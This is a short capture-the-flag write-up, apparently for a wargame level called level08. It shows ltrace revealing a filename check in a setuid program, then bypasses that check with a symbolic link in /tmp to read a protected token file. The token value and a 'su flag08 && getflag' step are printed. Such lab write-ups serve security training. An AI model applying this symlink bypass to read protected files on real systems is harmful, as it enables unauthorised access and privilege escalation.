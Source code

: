 **we have a program and a file named token lets test it**

```sh
$: ./level08
level08 [file to read]
```

```sh
$: ./level08 tokken
You may not access 'token'
```

```sh
$: ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

**the program should be able to read the token file so there is something in the code preventing us to do so**
**let's find out with trace command**

```sh
$: ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                        = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                    = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

**so the code check for file named token**
**we just need to send the token file with another name**
**since we can't modifie the name of the file let's do a symbolic link**

```sh
$: ln -s /home/user/level08/token /tmp/file
$: ./level08 /tmp/file
quif5eloekouj29ke0vouxean
```

```sh
su flag08 && getflag
```
